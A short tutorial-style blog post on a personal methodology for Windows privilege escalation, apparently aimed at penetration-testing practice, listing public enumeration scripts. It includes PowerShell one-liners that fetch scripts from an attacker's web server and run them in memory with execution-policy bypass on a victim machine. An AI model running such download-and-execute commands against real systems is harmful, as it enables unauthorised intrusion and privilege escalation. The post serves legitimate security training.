 


Windows Privilege escalation was one thing I struggled with, it was easy enough to get a shell but what next? I am just a normal user. Where do I start, what to look for, I guess these are questions that come to your mind when you want to escalate. Well this is the methodology which I follow for privilege escalation. Again this is only my flow and yours may be different, follow what works best for you.

Okay once I get my shell, I want to escalate as quickly as possible without wasting too much time so I run the scripts, find exactly what needs to be done and exploit it. I would suggest you to try out all the manual methods first before using automated scripts or you will not know which tool gives which data. Once you know that go for the automated scripts.

Remember each script has different formats and check for different things so know what exactly the scripts are doing before running them. I would suggest to use `wget.vbs` for transferring files from linux to windows as that always worked for me.

# Automated Scripts

## Scripts
Script 1: [Windows-Privesc-Check by Pentestmonkey](https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe)
Script 2: [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
Script 3: [WinPrivCheck.bat](https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
Script 4: [Powerup.ps1 from Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
Script 5: [Sherlock.ps1 by Rasta-mouse](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)

### Sherlock & PowerUp

These one-liners download the script from your web server and run it directly on the victim machine.

    c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"  
    c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"
    c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

Execution from the target directly:

    c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
    c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

I always prefer the one-liners, clean and simple, but you might lose your shell after executing it.

## Kernel Exploits
Analyse script 2 and 5.
